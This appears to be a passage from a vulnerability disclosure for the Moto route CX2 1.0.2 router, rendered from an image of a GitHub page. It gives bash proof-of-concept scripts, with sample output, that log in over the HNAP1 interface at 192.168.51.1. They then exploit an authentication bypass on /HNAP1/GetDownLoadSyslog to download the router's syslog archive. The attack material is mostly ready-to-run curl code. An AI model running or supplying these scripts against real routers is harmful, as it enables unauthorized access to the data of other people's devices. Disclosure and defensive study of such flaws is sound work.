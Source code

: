    You should install jq first. eg: `sudo apt install jq`

    ```bash
        #login
    function Login
    {
            c=$(curl -s -H $HOST -H $Origin -H $HNAP_AUTH -H 'SOAPAction: "http://purenetworks.com/HNAP1/Login"' -H 'Referer: http://192.168.51.1/Login.html'  -H $DEFAULT_COOKIE  --data-binary $REQUEST_LOGIN_DATA --compressed 'http://192.168.51.1/HNAP1/' > out.txt && cat out.txt | jq .LoginResponse.Cookie)
            uid=${c:1:8}
            setCooikeUID $uid
            echo $COOKIE
            curl -H $HOST -H $Origin -H $HNAP_AUTH -H 'SOAPAction: "http://purenetworks.com/HNAP1/Login"' -H 'Referer: http://192.168.51.1/Login.html' -H $COOKIE --data-binary $LOGIN_DATA --compressed 'http://192.168.51.1/HNAP1/'
    }
    Login
    echo '\n'
    ```

    ```bash
    ╰─○ ./poc.sh
    Cookie: work_mode=router; timeout=170; uid=WA9rYkub; PrivateKey=

    { "LoginResponse": { "LoginResult": "OK" } }
    ```

2. /HNAP1/GetDownLoadSyslog authentication bypass  

    **Description**:  

    An issue was discovered in Moto route CX2 1.0.2. The authentication of Syslog download could be bypassed.  

    **Reproduce**:  

    ```bash
        function getLog
    {
        curl -s -H $HOST -H $Origin \
        -H 'Upgrade-Insecure-Requests: 1' \
        -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3' \
        -H 'Referer: http://192.168.51.1/Diagnosis.html' \
        -H 'Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7' \
        -H $COOKIE -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' \
        --data "" \
        --compressed 'http://192.168.51.1/HNAP1/prog.fcgi?method=/HNAP1/GetDownLoadSyslog' > $1
    }
    Login
    echo '\n'
    getLog log.tar.gz
    ls -al log.tar.gz
    ```

